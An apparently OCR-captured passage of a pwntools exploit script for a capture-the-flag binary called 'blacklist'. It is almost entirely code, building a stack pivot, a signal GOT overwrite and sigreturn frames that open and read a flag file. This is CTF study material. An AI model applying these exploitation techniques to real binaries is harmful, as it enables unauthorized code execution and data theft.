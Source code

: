 ```py
next_rsp = p64(0x404280) # straight to planned syscall
O_RDONLY = p64(0)
FLAGS = p64(0)

io.recvuntil(b"flag\n")
# io = process("./blacklist")
# write to signal got 
pause()
io.send(b"A"*32 + p64(pivot_bss_addr+0x20) + p64(mis_aligned_read))
io.send(b"F"*16 + flag_str + O_RDONLY + p64(signal_got+0x20) + p64(mis_aligned_read))

pause()
io.send(p64(pop_rbp) + p64(0x404040) + p64(leave_ret) + p64(sig_frame+4*8+0x18+0x20)*2 + p64(mis_aligned_read))
io.send(next_rbp + b"A"*8*3 + p64(signal_got+0x20) +  p64(mis_aligned_read))

# setup sigframe 1
pause()
io.send(p64(pop_rbp) + p64(0x404040) + p64(leave_ret) + p64(sig_frame+8+0x10+0x20)*2 + p64(mis_aligned_read))
io.send(b"F"*16 + flag_str + O_RDONLY + p64(signal_got+0x20) + p64(mis_aligned_read))

pause()
io.send(p64(pop_rbp) + p64(0x404040) + p64(leave_ret) + p64(sig_frame+8*4+0x18+0x10+0x20)*2 + p64(mis_aligned_read))
io.send(FLAGS + SYS_open + b"A"*8 + next_rsp + p64(signal_got+0x20) +  p64(mis_aligned_read))

pause()
io.send(p64(pop_rbp) + p64(0x404040) + p64(leave_ret) + p64(sig_frame+6*8+0x18+0x20+0x20)*2 + p64(mis_aligned_read))
io.send(next_rip + b"2"*8 + b"3"*16 + p64(signal_got+0x20) +  p64(mis_aligned_read))

pause()
io.send(p64(pop_rbp) + p64(0x404040) + p64(leave_ret) + p64(sig_frame+6*8+0x18+0x20+0x20+16)*2 + p64(mis_aligned_read))
io.send(p64(0x33) + b"4"*16 + p64(0x2b) + p64(signal_got+0x20) + p64(mis_aligned_read))

pause()
io.send(p64(pop_rbp) + p64(0x404040) + p64(leave_ret) + p64(sig_frame+6*8+0x18+0x20+0x20+40+8)*2 + p64(mis_aligned_read))
io.send(b"\x00"*8*4 + p64(signal_got+0x20) + p64(mis_aligned_read))

pause()
io.send(p64(pop_rbp) + p64(0x404040) + p64(leave_ret) + p64(sig_frame+6*8+0x18+0x20+0x20+40+8+40)*2 + p64(mis_aligned_read))
io.send(p64(exe.plt["alarm"]) + p64(pop_rbp) + p64(0x4042d8) + p64(mis_aligned_read) + p64(signal_got+0x20) + p64(mis_aligned_read))

# setup sigframe 2
fd = p64(3)
buf = p64(0x404020)
count = p64(8)

pause()
io.send(p64(pop_rbp) + p64(0x404040) + p64(leave_ret) + p64(sig_frame_2+8+0x10+0x20-8)*2 + p64(mis_aligned_read))
io.send(b"F"*16 + fd + buf + p64(signal_got+0x20) + p64(mis_aligned_read))

pause()
io.send(p64(pop_rbp) + p64(0x404040) + p64(leave_ret) + p64(sig_frame_2+8*4+0x18+0x10+0x20-8)*2 + p64(mis_aligned_read))
io.send(count + SYS_read + b"A"*8 + next_rsp + p64(signal_got+0x20) +  p64(mis_aligned_read))

```